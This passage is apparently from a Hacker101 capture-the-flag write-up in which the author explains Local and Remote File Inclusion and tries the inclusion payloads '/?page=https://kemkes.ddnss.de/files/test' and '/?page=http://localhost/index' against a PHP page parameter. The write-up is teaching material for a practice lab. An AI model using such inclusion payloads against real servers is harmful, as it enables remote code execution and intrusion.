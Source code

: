 There is our comment! But it seems like there is some sort of filtering on PHP input... We could try to break the filter (I tried...), but let's take another approach.

Maybe something changes if we somehow are able to include the `index.php` where this comment is posted on... Previously we ran into an error. We tried a so called Local File Inclusion (LFI) attack. That means we wanted to get the server to include any file we want the server has in its storage. There is also another variant of this attack, the Remote File Inclusion (RFI). In this case we get the server to include any files from a source outside of itself by passing a remote path. For example this input... let's see what happens:

`/?page=https://kemkes.ddnss.de/files/test`

[<img src="./assets/hacker101-06-page3.png" alt="hacker101-06-page3.png" width="600"/>](./assets/hacker101-06-page3.png)

Hmm... all we get is the main page again. But here Cody says, *"This server can't talk to the outside world. Can it maybe talk to itself?"* The `include()` of `index.php` fails for the local file, but what about the *remote* file? Let's try this input:

`/?page=http://localhost/index`
